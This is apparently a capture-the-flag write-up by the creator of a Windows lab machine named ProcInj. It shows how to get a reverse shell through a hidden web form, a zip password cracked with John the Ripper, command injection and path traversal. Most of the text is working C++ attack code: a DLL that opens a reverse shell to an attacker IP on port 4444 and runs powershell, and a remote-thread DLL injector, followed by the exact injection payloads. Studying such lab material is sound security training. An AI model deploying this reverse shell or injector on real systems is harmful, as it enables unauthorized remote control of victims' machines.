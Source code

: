 I created a windows 10 machine called ProcInj, focusing on process injection and path traversal technique to get reverse shell. This writeup serves as a guide to solve the machine. Instruction to set up the lab can be seen in https://github.com/mdphuc/myfile/tree/main/VM/ProcInj/README.md

ProcInj hosts a website as below

<img src="../Images/website.png">

After messing around with the website, we notice that there's a form commented on the website, uncomment it and submit the form we have a zip file downloaded to our machine

<img src="../Images/website_hidden_form.png">
<br><br>
<img src="../Images/website_download.png">

Try open it, we notice it's password protected

<img src="../Images/zip_protected.png">

Use JohnTheRipper to crack the password with password list: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/common-passwords-win.txt 

<img src="../Images/zip2john.png">
<br><br>
<img src="../Images/zip_crack.png">

Unzip the file and open information.txt we have

<img src="../Images/information_txt.png">

Messing around with the website, we notice it is used to compile a .cpp file into exe or dll. However, it forbids us to compile .cpp file with windows api into exe. Information.txt tells us that only C://ProgramData/ProcInj/System/debug.exe can run. Further test also shows that we can submit customed command with the form (We can craft it like ```hello && echo "1" > hello.txt``` then a file named hello.txt with 1 as its content will be created)

As what Information.txt shows, our plan now is to create a dll file with windows api and run it by inject it into another process 

Our testdll.dll is crafted as followed

```cpp
#include <iostream>
#include <windows.h>
#include <winsock2.h>
#include <stdio.h>
#pragma comment(lib, "w2_32")

using namespace std;

#ifdef __cplusplus   
extern "C" {         
#endif
 
__declspec(dllexport) int __cdecl mbox(LPCWSTR msg){
    WSADATA wsaData;
    SOCKET wSock;
    struct sockaddr_in hax;
    STARTUPINFO sui;
    PROCESS_INFORMATION pi;

    char *ip = "192.168.1.25";
    short port = 4444;

    // init socket lib
    WSAStartup(MAKEWORD(2, 2), &wsaData);

    // create socket
    wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

    hax.sin_family = AF_INET;
    hax.sin_port = htons(port);
    hax.sin_addr.s_addr = inet_addr(ip);

    // connect to remote host
    WSAConnect(wSock, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

    memset(&sui, 0, sizeof(sui));
    sui.cb = sizeof(sui);
    sui.dwFlags = STARTF_USESTDHANDLES;
    sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE) wSock;

    // start cmd.exe with redirected streams
    CreateProcess(NULL, "powershell.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
    exit(0);

    MessageBox(NULL, TEXT("HELLO WORLD"), TEXT("TEST"), MB_OK);
    return 1;
}   
 
#ifdef __cplusplus
}
#endif

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved){
    switch(fdwReason){ 
        case DLL_PROCESS_ATTACH:
            mbox(L"Run");
            break;

        case DLL_THREAD_ATTACH:
            break;

        case DLL_THREAD_DETACH:
            break;

        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

Our debug.exe for injection is crafted as followed

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <psapi.h>

using namespace std;

BOOL CompareCHAR(CHAR *char1, CHAR *char2){
    int i = 0;
    while(char1[i] != '\0' && char2[i] != '\0'){
        if (char1[i] != char2[i]){
            return false;
        }
        i ++;
    }
    if ((char1[i] == '\0' && char2[i] != '\0') || (char1[i] != '\0' && char2[i] == '\0')){
        return false;
    }
    return true;
}

DWORD GetProcessID(CHAR *process_name){
    HANDLE process_snap;
    PROCESSENTRY32 pe32;
    HANDLE handle_process;

    process_snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

    pe32.dwSize = sizeof(PROCESSENTRY32);

    Process32First(process_snap, &pe32);

    do{
        if (CompareCHAR((CHAR*)pe32.szExeFile, process_name)){
            return pe32.th32ProcessID;
        }

        // cout << pe32.szExeFile << " " << process_name << endl;
    }while(Process32Next(process_snap, &pe32));
    return 0;
}

BOOL Inject(TCHAR *dll_to_inject, DWORD process_id_inject_to){
    TCHAR dll_path[MAX_PATH];

    GetFullPathName(dll_to_inject, MAX_PATH, dll_path, NULL);

    HANDLE hproc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_id_inject_to);
    // HANDLE hfile = CreateFileA((LPCSTR)dll_path, GENERIC_READ, 0, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL);

    // DWORD dllfilesize = GetFileSize(hfile, NULL);

    LPVOID dllalloc = VirtualAllocEx(hproc, NULL, strlen((CHAR*)dll_path), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    WriteProcessMemory(hproc, dllalloc, dll_path, strlen((CHAR*)dll_path), NULL);

    FARPROC loadlibraryA_addr = GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "LoadLibraryA");

    HANDLE rthread = CreateRemoteThread(hproc, NULL, 0, (LPTHREAD_START_ROUTINE)loadlibraryA_addr, dllalloc, 0, NULL);
    WaitForSingleObject(rthread, INFINITE);

    return true;
}

int main(){
    TCHAR dll_to_inject[MAX_PATH] = TEXT("C://ProgramData/ProcInj/Web/compiled/testdll.dll");

    CHAR process_to_get_id[] = "cmd.exe";

    DWORD pid = GetProcessID(process_to_get_id);

    if (pid == 0){
        cout << "Cannot find id of target process";
        return 1;
    }

    cout << pid << endl;
    cout << Inject(dll_to_inject, pid);
}
```
This is your netcat server to receive reverse shell (change it accordingly to your own)
```cpp
char *ip = "192.168.1.25"
short port = 4444
``` 
debug.exe is used to get cmd.exe's process id, and injection testdll.dll into that process id. Once CreateRemoteThread and WaitForSingleObject are called, function mbox in testdll.dll will run

Information.txt tells us that debug.txt leaves under C://ProgramData/ProcInj/System, and website reveals ```./Web/compiled```. We guess that website is running under ```C://ProgramData/ProcInj/Web``` and sure file after being compiled will be stored at ```./Web/compiled```, so we may probably use ```../..``` in our payload

We will initiate the process with these following payload respectively

1. ```testdll.cpp -shared -lws2_32 -o testdll.dll```
2. ```debug.cpp -o ../../System/debug.exe```
3. ```hello && powershell C://ProgramData/ProcInj/System/debug.exe```

We got reverse shell in the end 

<img src="../Images/terminal.png">

We also notice that we cannot use tasklist or tskill or stop-process to stop av.exe; however, once we got the shell, it's ok to do that and get full access of the shell



